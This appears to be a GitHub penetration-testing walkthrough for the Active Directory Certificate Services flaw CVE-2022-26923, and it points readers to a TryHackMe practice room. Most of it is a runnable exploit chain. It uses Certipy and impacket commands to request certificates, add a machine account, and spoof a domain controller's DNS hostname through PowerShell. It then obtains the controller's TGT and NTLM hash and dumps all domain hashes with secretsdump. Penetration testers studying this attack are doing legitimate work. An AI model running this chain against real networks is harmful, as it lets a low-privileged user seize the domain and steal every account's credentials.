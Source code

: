 # Active Directory Certificate Services (ADCS) CVE-2022-26923

This attack relies on ADCS being available within the internal active directory network you are attempting to compromise. Furthermore, a low privieged domain user account will be required for the steps in the attack path.

TryHackMe has a room based on this vulnerability that can be accessed here https://tryhackme.com/room/cve202226923. I'd recommend practicing within their environment _before_ using this on a penetest engagement.

With the low privileged user credentials, search for the ADCS server within the active directory domain. This can be done by running `certutil.exe` within Microsoft Windows, or by using `Certipy.py`, which is available from https://github.com/ly4k/Certipy. Certipy requires Python 3 and also impacket to be installed. If this attack is ran from a Kali Linux machine attached to the network, the dependencies should come preinstalled.

*Note that ADCS does not have to be running on the domain controller, and quite often it will be ran on its own server instance*

Use certipy to discover the details of the ADCS server within the domain. The following command will list the details of the Certificate Authority "CA" within the AD environment, along with what certificate templates are available:

```shell
certipy.py find 'domain.local/username:password@dc1.adcs-server.domain.local'
```

Now a certificate can be generated for the current user using Certipy and the "User" template. This will then download a ".pfx" certificate file. The name of the CA can be found from the output of the `Certipy.py find` command or `certutil.exe`

```shell
certipy.py req 'domain.local/username:password@dc1.adcs-server.domain.local' -ca "Name Of CA" -template user
```

Now a TGT can be obtained for the user using Certipy. The following command will generate a CCACHE file containing a Kerberos TGT for the user "username". THe command will output the CCACHE file, along with the NTLM hash for the user.

```shell
certipy.py auth -pfx username.pfx
```

Now impacket can be used to add a new computer object to the active directory domain. In a default active directory configuration, a standard user can add up to 10 machine accounts. Providing the user can add a machine account to the domain, `addcomputer.py` can be used:

```shell
addcomputer.py 'domain.local/username:password' -method LDAPS -computer-name NEW-PC -computer-password Password123!`
```

Now with the new computer added to the domain, a machine certificate can be requested from the ADCS server:

```shell
certipy.py req 'domain.local/NEW-PC$:Password123!@dc1.adcs-server.domain.local' -ca "Name Of CA" -template Machine'
```

The certificate will download as a ".pfx" file with the `NEW-PC.pfx`. Now a TGT can be created for the machine account, which will output a CCACHE file:

```shell
certipy auth -pfx NEW-PC.pfx
```

On a Windows host on the target environment, the following commands can now be ran in powershell to make modifications to the DNS hostname. First look at the dnshostname and service princlpal name:

```powershell
Get-ADComputer NEW-PC -properties dnshostname,serviceprincipalname
```

First, delete the serviceprincipalname using the following powershell command:

```powershell
Set-ADComputer NEW-PC -ServicePrincipalName @{}
```

Rename the DNS hostname to a hostname that belongs to the domain controller within the environment:

```powershell
Set-ADComputer NEW-PC -DnsHostName DC1.domain.local
```

Now certipy can be ran again to request a certificate for the same machine again, noting that the SPN has been removed and the DNS host name now matches that of a domain controller within the environment:

```shell
certipy.py req 'domain.local/NEW-PC$:Password123!@dc1.adcs-server.domain.local' -ca "Name Of CA" -template Machine'
```
The certificate output will contain the same properties of the domain controller. A TGT can now be created using certipy, and will save the output as `DC1.domain.local.CCACHE`. Furthermore, the output will contain the NTLM hash of DC1$ machine account:

```shell
certipy.py auth -pfx DC1.pfx
```

With the NTLM and TGT to authenticate as DC1$, it would be possible to use Impackets secretsdump.py tool to dump all hashes from the domain, either by supplying the CCACHE file as the `export KRB5CCACHE=DC1.ccache` and selecting kerberos authentication, or just by supplying the NTLM hash of the machine account.



